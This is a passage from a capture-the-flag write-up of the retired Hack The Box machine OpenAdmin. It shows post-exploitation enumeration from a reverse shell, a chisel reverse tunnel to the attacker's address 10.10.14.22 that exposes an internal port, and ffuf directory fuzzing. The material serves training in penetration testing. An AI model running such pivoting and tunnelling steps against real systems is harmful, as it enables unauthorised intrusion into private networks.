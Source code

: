 ## Checking if port 52846 is hosting a webserver
```console
www-data@openadmin:/var/www$ curl -I 127.0.0.1:52846
HTTP/1.1 200 OK
Date: Sun, 04 Jul 2021 12:58:26 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=70uf1pv169g9itnmbj9a2mvb2i; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```


## Checking /var/www
```console
www-data@openadmin:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Nov 22  2019 .
drwxr-xr-x 14 root     root     4096 Nov 21  2019 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22  2019 html
drwxrwx---  2 jimmy    internal 4096 Nov 23  2019 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21  2019 ona -> /opt/ona/www
```
Internal must host the files for internal webserver. It is owned by user jimmy and group internal. Since, we do not belong to any of those we can not read the contents of that folder.


We can try and enumerate the webserver from our reverse shell but it will make our life so much difficult. So, I will use chisel for port forwarding and access the port from my own local box.

## Port forwarding using chisel
On client
```console
reddevil@ubuntu:~/Documents/htb/retired/www$ ./chisel server -p 1880 --reverse
2021/07/04 18:56:39 server: Reverse tunnelling enabled
2021/07/04 18:56:39 server: Fingerprint eUn7pldxI7MVcrR5tDOZc6uK39DGwtpxyXnWMbrOhUA=
2021/07/04 18:56:39 server: Listening on http://0.0.0.0:1880
```
On Server
```console
$ ./chisel client 10.10.14.22:1880 R:52846:127.0.0.1:52846
2021/07/04 13:12:12 client: Connecting to ws://10.10.14.22:1880
2021/07/04 13:12:14 client: Connected (Latency 203.29487ms)
```

# HTTP Service on Port 52846
![image](/assets/images/htb-boxes/openadmin/Pasted image 20210704185831.png)

## Fuzzing with ffuf
```console
reddevil@ubuntu:~/Documents/htb/retired/openadmin$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://localhost:52846/FUZZ -e .txt,.php,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.0-git
```